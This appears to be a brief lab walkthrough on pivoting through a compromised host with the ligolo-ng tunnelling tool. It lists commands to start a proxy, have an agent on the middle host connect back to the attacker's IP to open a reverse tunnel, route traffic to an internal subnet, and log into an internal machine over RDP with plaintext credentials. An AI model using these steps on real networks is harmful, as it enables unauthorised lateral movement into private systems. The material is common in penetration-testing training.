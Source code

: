 # Download  
https://github.com/nicocha30/ligolo-ng  

## Topology  
10.10.14.22 <--> 10.129.247.87 <--> 172.16.5.19  

# Server Step 1
```
sudo ip tuntap add user $(whoami) mode tun ligolo  
sudo ip link set ligolo up  
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

# Client Step 1  
```
/agent -connect 10.10.14.22:443 -ignore-cert  
```

## Server Step 2  
```
session
autoroute  
```
## RDP  
```xfreerdp3 /v:172.16.5.19 /u:victor /p:'pass@123'```  

## Snapshot for Server  
<img width="1338" height="476" alt="image" src="https://github.com/user-attachments/assets/8870ed59-ad12-4f6a-bef9-d216579c5118" />  

## Snapshot for Client
<img width="662" height="85" alt="image" src="https://github.com/user-attachments/assets/2b1abdf8-cb71-4eb3-9a37-f91e47ff0c61" />  


